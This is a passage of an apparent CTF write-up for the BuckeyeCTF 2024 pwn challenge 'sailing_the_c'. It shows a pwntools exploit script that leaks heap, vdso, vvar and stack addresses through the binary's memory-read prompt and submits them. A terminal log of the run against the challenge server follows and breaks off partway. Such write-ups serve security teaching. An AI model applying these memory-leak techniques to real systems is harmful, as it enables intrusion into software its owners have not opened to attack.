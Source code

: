 ```py {filename=exploit.py linenos=table}
heap_base = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)
heap_base = heap_base - 0x3a0

vdso_pos = (0x7f4ca5649890 - 0x7f4ca560e000) + ld_base
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(vdso_pos).encode())
vdso_leak = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)
vvar_leak = vdso_leak - 0x4000

stack_pos = libc.sym['environ']
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(stack_pos).encode())
stack_leak = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)

print(hex(stack_leak))
stack_leak = (stack_leak & 0xfff) ^ stack_leak + 0x2000 - 0x21000
print(hex(stack_leak))

vsyscall = 0xffffffffff600000

r.recvuntil(b'Where to, captain?\n')
r.sendline(str(0).encode())

r.recvuntil(b'?\n')
r.sendline(str(elf_base).encode())

r.recvuntil(b'?\n')
r.sendline(str(heap_base).encode())

r.recvuntil(b'?\n')
r.sendline(str(libc_base).encode())

r.recvuntil(b'?\n')
r.sendline(str(ld_base).encode())

r.recvuntil(b'?\n')
r.sendline(str(stack_leak).encode())

r.recvuntil(b'?\n')
r.sendline(str(vvar_leak).encode())

r.recvuntil(b'?\n')
r.sendline(str(vdso_leak).encode())

r.recvuntil(b'?\n')
r.sendline(str(vsyscall).encode())

r.interactive()
```
running the exploit we have
```bash
fooker@fooker:~/buckeyectf2024/pwn/sailing_the_c$ python3 solve.py
[*] '~/buckeyectf2024/pwn/sailing_the_c/chall_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'.'
[+] Opening connection to challs.pwnoh.io on port 13375: Done
[DEBUG] Received 0x13 bytes:
```